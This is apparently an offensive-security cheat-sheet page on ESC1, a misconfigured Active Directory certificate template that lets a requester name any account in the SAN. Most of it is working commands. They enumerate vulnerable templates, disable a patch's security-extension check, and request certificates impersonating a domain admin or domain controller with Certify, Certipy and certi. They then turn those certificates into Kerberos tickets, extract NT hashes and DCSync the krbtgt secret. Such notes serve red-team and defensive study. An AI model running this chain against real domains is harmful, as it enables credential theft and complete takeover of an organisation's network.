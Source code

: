 ```yaml
---
description: Modifiable SAN + Smart Card Logon or Client Authentication or PKINIT Client Authentication EKUs
---
```


# ESC1

- [https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/](https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/)

The vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Smart Card Logon (`1.3.6.1.4.1.311.20.2.2`) or Client Authentication (`1.3.6.1.5.5.7.3.2`) or PKINIT Client Authentication (`1.3.6.1.5.2.3.4`) EKUs.




## Enumerate

Find template with this misconfiguration with native Active Directory module:

```powershell
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```




## Disable the KB5014754 Patch

Disable `szOID_NTDS_CA_SECURITY_EXT` extension checking (requires CertSvc restart):

```
Cmd > certutil.exe -setreg policy\DisableExtensionList +1.3.6.1.4.1.311.25.2
```




## Exploit



### Certutil

- [https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee](https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee)



### Certify

Request a certificate specifying the `/altname` as a domain admin:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:VulnTemplate /altname:DomAdmin
```

Convert `.pem` to a `.pfx` certificate:

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Request a TGT with the `.pfx` certificate:

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:DomAdmin /certificate:cert.pfx /password:Passw0rdPfx! /ptt
```



### Certipy

Enroll a certificate with privileged subject in SAN:

```
$ certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -ca CorpCA -template VulnTemplate -upn administrator@magacorp.local -dc-ip 192.168.1.11
```

Request TGT providing the certificate and get the corresponding NT hash automatically:

```
$ certipy auth -pfx administrator.pfx -domain megacorp.local -username administrator -dc-ip 192.168.1.11
```



### certi

- [https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250](https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Enroll a certificate with privileged subject in SAN:

```
$ certi.py req megacorp.local/snovvcrash@CA01.megacorp.local CorpCA -k -n --dc-ip 192.168.1.11 --template VulnTemplate --alt-name 'DC01$'
```

Request TGT providing certificate:

```
$ base64 -w0 DC01.pfx > DC01.pfx.b64
$ python3 gettgtpkinit.py megacorp.local/'DC01$' -pfx-base64 `cat DC01.pfx.b64` -pfx-pass admin -dc-ip 192.168.1.11 DC01.ccache
```

Request NT hash providing TGT or DCSync:

```
$ KRB5CCNAME=DC01.ccache python3 getnthash.py megacorp.local/'DC01$' -dc-ip 192.168.1.11 -key <AS_REP_ENC_KEY>
$ KRB5CCNAME=DC01.ccache secretsdump.py DC02.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```
